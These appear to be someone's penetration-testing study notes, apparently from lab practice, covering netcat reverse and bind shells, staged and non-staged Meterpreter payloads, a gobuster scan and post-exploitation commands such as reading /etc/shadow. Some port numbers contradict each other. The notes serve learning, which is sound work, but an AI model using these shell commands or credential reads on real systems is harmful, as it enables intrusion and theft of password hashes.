 # SHell Basics

Netcat Reverse SHell 


Attack Box                                                          Target

nc -lvp 4444              <<< TCP port 444             nc 192.168.1.1 4444 -e /bin/sh
listening                                                               connecting


Victim connects to us. What you will use most times.


Netcat Bind SHell 


Attack Box                                                                 Target

nc 192.168.1.2 444             TCP port 444>>>>          nc -lvp 4444 -e /bin/sh
connecting                                                                  listening

Staged vs Non Staged Payloads

Non Staged
    sends texploit shellcode all at once
    Larger in size and won't always work
    ex: 
    windows/meterpreter_reverse_tcp
    
Staged
    Sends payload in stages
    can be less stable
    ex:
    windows/meterpreter/reverse_tcp


# Gobuster
sudo gobuster dir -u http://192.168.52.129 -f  -e -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt > gobusterScan

-f adds a slash at the end (helped when kioptrix was redirecting)
-e prints full url



#Post Exploitation
find current user
    whoami
    sudo -l

Network info
    ip
    arp table
    routes
    
check sys files
    cat /etc/passwd
    cat /etc/shadow
